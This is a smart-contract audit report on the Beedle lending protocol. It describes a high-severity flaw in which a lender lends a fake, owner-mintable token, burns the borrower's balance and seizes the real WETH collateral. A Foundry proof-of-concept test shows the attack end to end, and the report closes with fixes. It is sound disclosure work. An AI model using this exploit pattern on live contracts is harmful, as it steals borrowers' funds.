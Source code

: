 # H-01 Malicious lender can seize borrowers collateral by using fake token

## Severity

High

## Relevant GitHub Links

[https://github.com/Cyfrin/2023-07-beedle/blob/658e046bda8b010a5b82d2d85e824f3823602d27/src/Lender.sol#L132C9-L139C31](https://github.com/Cyfrin/2023-07-beedle/blob/658e046bda8b010a5b82d2d85e824f3823602d27/src/Lender.sol#L132C9-L139C31)

## Summary

When lender creates new pool, he can use arbitrary erc20 compliant token. By creating fake version of some known token like WETH, he can provide it to user for collateral of real WETH. After borrower provides collateral, attacker can seize it.

## Vulnerability Details

Anyone can create pool with any token. This gives hackers an option to provide fake priceless tokens for real valuable tokens as collateral.

Malicious lender creates fake WETH. He is the owner and can burn and mint as he wishes.

This lender creates pool to lend fake WETH and accepts real WETH as collateral with low fees to lure in unsuspecting users.

User borrows this fake token and provides collateral.

Attacker burns borrower's tokens so he can't repay loan and starts auction. Nobody can buy the loan from him, because only he possesses this fake WETH.

Attacker can seize collateral after time for auction ends.

### POC

I created a simplified version of this attack. It can be run in Lender.t.sol.

Run this test with this command:

```
forge test --match-contract LenderTest --match-test test_maliciousLenderStealsCollateral
```

```solidity


contract MERC20 is ERC20 {
    function name() public pure override returns (string memory) {
        return "Malicious ERC20";
    }

    function symbol() public pure override returns (string memory) {
        return "MERC20";
    }

    function mint(address _to, uint256 _amount) public {
        _mint(_to, _amount);
    }

    function burn(address _from) public {
        _burn(_from, balanceOf(_from));
    }
}

function test_maliciousLenderStealsCollateral() public {
    // attacker creates malicious token
    address attacker = address(0x5);
    vm.startPrank(attacker);
    MERC20 maliciousLoanToken = new MERC20();
    maliciousLoanToken.mint(attacker, 1000*10**18);
    maliciousLoanToken.approve(address(lender), 1000*10**18);

    // attacker creates pool
    Pool memory p = Pool({
        lender: attacker,
        loanToken: address(maliciousLoanToken),
        collateralToken: address(collateralToken),
        minLoanSize: 100*10**18,
        poolBalance: 1000*10**18,
        maxLoanRatio: 2*10**18,
        auctionLength: 1 days,
        interestRate: 1000,
        outstandingLoans: 0
    });
    bytes32 poolId = lender.setPool(p);
    vm.stopPrank();

    // borrower borrows
    vm.startPrank(borrower);
    Borrow memory b = Borrow({
        poolId: poolId,
        debt: 100*10**18,
        collateral: 100*10**18
    });
    Borrow[] memory borrows = new Borrow[](1);
    borrows[0] = b;
    lender.borrow(borrows);
    vm.stopPrank();

    // attacker burns borrowers tokens so he can't repay
    vm.startPrank(attacker);
    maliciousLoanToken.burn(borrower);

    // attacker starts auction but no one can buy because no one has his malicious token
    uint256[] memory loanIds = new uint256[](1);
    loanIds[0] = 0;
    lender.startAuction(loanIds);

    // attacker seizes loan collateral
    uint attackerCollateralTokenBefore = collateralToken.balanceOf(attacker);
    vm.warp(block.timestamp + 2 days);
    lender.seizeLoan(loanIds);
    uint attackerCollateralTokenAfter = collateralToken.balanceOf(attacker);

    uint fee = (lender.borrowerFee() * borrows[0].collateral) / 10000;
    uint collateralSeized = borrows[0].collateral - fee;

    // attacker siezed borrowers collateral
    assertEq(collateralSeized, attackerCollateralTokenAfter - attackerCollateralTokenBefore);
    // borrower has zero malicious tokens
    assertEq(maliciousLoanToken.balanceOf(borrower), 0);

    vm.stopPrank();
}
```

## Impact

The unsuspecting borrower gets his collateral stolen.

## Tools Used

Manual review

## Recommendations

Implement whitelist of allowed tokens for loaned tokens.

If you don't want to whitelist tokens, create functionality for borrower to be able to defend themselves. Some way to raise a dispute or make sure on the front end that they know that loaned token isn't okay.